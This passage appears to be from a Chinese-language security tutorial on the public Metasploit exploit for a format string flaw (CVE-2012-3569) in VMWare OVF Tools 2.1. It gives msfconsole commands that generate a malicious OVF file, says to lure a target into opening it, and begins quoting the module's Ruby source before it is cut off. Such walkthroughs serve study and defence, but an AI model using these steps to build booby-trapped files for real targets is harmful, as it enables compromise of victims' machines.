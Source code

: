 ```plaintext
Payload information:
  Avoid: 158 characters

Description:
  This module exploits a format string vulnerability in VMWare OVF Tools 2.1 for
  Windows. The vulnerability occurs when printing error messages while parsing a
  a malformed OVF file. The module has been tested successfully with VMWare OVF Tools
  2.1 on Windows XP SP3.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2012-3569
  OSVDB (87117)
  http://www.securityfocus.com/bid/56468
  https://www.vmware.com/security/advisories/VMSA-2012-0015.html


View the full module info with the info -d command.
```

使用该模块生成木马

```sh
msf6 exploit(windows/fileformat/ovf_format_string) > set payload windows/exec
msf6 exploit(windows/fileformat/ovf_format_string) > set CMD calc.exe
msf6 exploit(windows/fileformat/ovf_format_string) > exploit
```

随后 MSF 将生成 exp.ovf 文件，诱使目标打开即可实现漏洞利用

## Exploit 分析

该模块的 exp 位于

```plaintext
/usr/share/metasploit-framework/modules/exploits/windows/fileformat/ovf_format_string.rb
```

exp 的核心代码为

```Ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::FILEFORMAT

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'VMWare OVF Tools Format String Vulnerability',
      'Description'    => %q{...},
      'License'        => MSF_LICENSE,
      'Author'         => [...],
      'References'     => [...],
      'Payload'        =>
        {
          'DisableNops'    => true,
          'BadChars'       =>
            (0x00..0x08).to_a.pack("C*") +
            "\x0b\x0c\x0e\x0f" +
            (0x10..0x1f).to_a.pack("C*") +
            (0x80..0xff).to_a.pack("C*") +
            "\x22",
```